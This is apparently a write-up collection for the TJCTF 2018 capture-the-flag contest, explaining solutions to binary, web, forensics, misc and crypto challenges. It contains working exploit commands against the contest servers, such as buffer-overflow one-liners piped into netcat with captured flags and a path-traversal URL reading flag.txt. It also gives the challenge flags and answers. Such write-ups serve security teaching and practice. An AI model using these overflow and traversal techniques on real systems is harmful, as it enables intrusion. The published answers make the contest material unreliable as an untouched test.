 # TJCTF_2018

Writeups for tjctf 2018

## Binary Exploitation

### Math Whiz

*The neighborhood math whiz won't stop bragging about the [registration form](The neighborhood math whiz won't stop bragging about the registration form (source) he coded. Show him who's boss!) [(source)](https://static.tjctf.org/b205be62e0ea85709eae9e6b43a2041383a6bcde3ab6e956b3077d68ef04b8aa_register.c) he coded. Show him who's boss!*

`nc problem1.tjctf.org 8001`

There's a pretty blatent buffer overflow vulnerability that exists because the fgets command is being passed the wrong parameter. Just injecting enough lines of A's via python gets the job done.

```
python -c "print ('A'*100+'\n')*10" | nc problem1.tjctf.org 8001
******************** Please Register Below ********************
Full Name: Username: Password: Recovery Pin: Email: Address: Biography: Successfully registered 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' as an administrator account!
Here is your flag: tjctf{d4n63r0u5_buff3r_0v3rfl0w5}
timeout: the monitored command dumped core
```

### Tilted Troop

*Can you help us defeat the monster? [binary](https://static.tjctf.org/ec2a70a6fb4adde9dd9bc19319524cceffc821486345e4cfc670cd21f80193ed_strover) [(source)](https://static.tjctf.org/48bd93cb48aab01658f26ef62da5507446f45445aaa83c902bfd9023c803be00_strover.c)*

`nc problem1.tjctf.org 8002`

This is another buffer overflow problem. Indexed incorrectly you can input 9 characters. The ascii values of the last character's name sum together to make up the strength of all the characters because of this. Just inject an ascii string with the proper sum for the 9th character.

```
root@DESKTOP-C400:/mnt/c/Program Files/VCG/MeshLab# (python -c "print 'A\n'*8+'A aaam\n'+'F\n'"; cat) | nc problem1.tjctf.org 8002
Commands:
 A <name> - Add a team member
 F - Fight the monster
 Q - Quit
Wow! Your team is strong! Here, take this flag:
tjctf{0oPs_CoMP4Ri5ONs_r_h4rD}
Try again
^C
root@DESKTOP-C400:/mnt/c/Program Files/VCG/MeshLab#
```

### Future Canary Lab
*The world renowned Future Canary Lab is looking for a new lab member. Good luck with your [interview](https://static.tjctf.org/c962e5ec36fc4161a93c042e1837cf0fe0a35a92469f37181f827d9ee8a54cca_interview) [(source)](https://static.tjctf.org/2e1b38dc00bfb021e2deb45219f4c44b371dc1ae98b0fb2ee2d9905032e310a3_interview.c!)*

`nc problem1.tjctf.org 8000`

This one is a stack exploit via buffer overflow that requires leaving a stack canary intact. They use C's default random library with a seed of the time in seconds. Just write a C script to generate the values locally and then inject the overflow, canary, and payload to get the calculation to evaluate to 0xdeadbeef in the code via a simple python script using os.popen and pwntools' socks client.

### Secure Secrets

*I am responsible for architecting the most recent paradigm in our modern technological revolution: Secure Secrets. Why don't you [try](https://static.tjctf.org/521f71839cd9dfb7cc608497cef567f4942b849a017e28bb2e069fecfbab17fc_secure) it out?*

`nc problem1.tjctf.org 8008`

[Video Writeup](https://youtu.be/NbDZW0HQmf4)

## Web

### Blank
*Someone told me there was a flag on this [site](https://blank.tjctf.org/), so why is it that I can only see blank?*

The flag is a comment in the webpage source html code. Ctrl-U in firefox.

### Cookie Monster
*The [Cookie Monster](https://cookie_monster.tjctf.org/) is not a fan of horses*

The flag is a webpage cookie. Just go into the debug console (F-12) and find it there with the rest of the webpage cookies.

### Central Savings Account
*I seem to have forgotten the password for my savings account. What am I gonna do?*

The flag's md5 has is stored client side in the webpage js. Just throw it into hashkiller. The flag is "avalon".

### Moar Horses
*The [Horse](https://moar_horse.tjctf.org/) is back!*

This problem must seriously have been a joke. Just keep scrolling via javascript. Eventually you'll find a response containing the flag in the console.

```javascript
$(window).scroll(function () { console.log( $('.jscroll-next-parent').html() ); })
```

```
<a href="/legs">Oops, you couldn't get the flag</a> debugger eval code:1:32
<a href="/legs">Oops, you couldn't get the flag</a> debugger eval code:1:32
<a href="/legs">tjctf{h0rs3s_h4v3_lonG_l3gS}</a> debugger eval code:1:32
<a href="/legs">tjctf{h0rs3s_h4v3_lonG_l3gS}</a> debugger eval code:1:32
<a href="/legs">Oops, you couldn't get the flag</a> debugger eval code:1:32
<a href="/legs">Oops, you couldn't get the flag</a>
```

### Programmable Hyperlinked Pasta

*Check out my new site! PHP is so cool!*

[programmable_hyperlinked_pasta.tjctf.org](programmable_hyperlinked_pasta.tjctf.org)

`view-source:https://programmable_hyperlinked_pasta.tjctf.org/?lang=../flag.txt`

## Misc.

### Trippy
*[trippy](https://static.tjctf.org/be37fef78cfd6c7deda71154f567e6d0cfefbda1f80698c064bab469d3a54c58_trippy.gif)*

Run strings on the file and grep for "tjctf"

```
root@DESKTOP-C400:/mnt/d/Google Drive/Documents/ctf/TJCTF_2018/trippy# strings trippy.gif | grep tjctf
tjctf{w0w}
root@DESKTOP-C400:/mnt/d/Google Drive/Documents/ctf/TJCTF_2018/trippy#
```

### Mirror Mirror

*If you look closely, you can see a reflection.*

`nc problem1.tjctf.org 8004`

The problem leaves us with a restricted python terminal and a hint regarding reflection, a way to get possible attributes of object and/or functions at runtime in many languages.

[Video Writeup](todo)

## Forensics

### Weird Logo

*This company's logo stands in contrast of those of other leading edge tech companies with its poor design*

![Source](https://static.tjctf.org/c9a03d15f235087145579bd06f3f736a5546539254fbde100b8bf4d990bb8d8f_logo.png)

Solution: There are 2 colors of blue used in the image that are very close to one another. Use a bucket tool in paint with 100% selectivity to get the flag.

*image link here*

### Weird Audio Circuit

*In my electronics class, we made this cool circuit for encoding audio. Check it out!*

[Audio](https://static.tjctf.org/c34e48ab19254a7fe95fff369d8dca5272f2a46f92e6c4ffef50d9b4de5e9cbc_problem.wav)

[Videoo Writeup](https://youtu.be/ZLO1LipkSFc)

The file contains an AM modulated audio signal with a carrier at 10Khz. Demodulate with the following nyquist script in audacity, and transcribe the flag starting at ~36 seconds in.

[https://forum.audacityteam.org/viewtopic.php?t=95331](https://forum.audacityteam.org/viewtopic.php?t=95331)
`(lowpass8 (mult *track* (hzosc 10000)) 10000)`

### Ssleepy

*I found this super suspicious [transmission](https://static.tjctf.org/99870da89e552d13905dbff3fe0543ca336c4c425cb723e3f4b6c0e91a6e23e7_ssleepy.pcapng) lying around on the floor. What could be in it?*

Extract .7z file containing .pem file for RSA private key (for SSL traffic decryption) from FTP traffic in wireshark. Then, extract the flag.jpg file from the SSL traffic responding to the GET request for the flag image.

[Video Writeup](https://youtu.be/1uiYoRnXt0M)

## Cryptography

### Classic

*My primes might be close in size but they're big enough that it shouldn't matter right? [rsa.txt](https://static.tjctf.org/6bd24f59c2861c8f62358d17d677812bc079876f6951c22d13f396bbf1059cca_rsa.txt)*

The modulus is easily factored by [Fermat's Algorithm](https://en.wikipedia.org/wiki/Fermat%27s_factorization_method). Use the factorization to generate the private key and decrypt the ciphertext.

### Affine

Didn't solve this one during the competition, but I'm still pretty convinced its a linearly padded hastad broadcast attack where the padding is the sha1 hash of the modulus as a string.




